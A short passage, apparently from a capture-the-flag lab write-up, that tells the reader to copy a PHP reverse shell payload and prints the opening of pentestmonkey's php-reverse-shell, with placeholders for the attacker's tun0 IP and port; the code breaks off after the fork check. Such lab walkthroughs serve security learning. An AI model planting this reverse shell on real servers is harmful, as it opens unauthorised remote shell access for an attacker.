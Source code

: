 ![shell](./Screenshots/oopsieshell.png)

Copy the payload, it should look like this:

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '{your tun0 ip}';
$port = {port of your choice};
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
```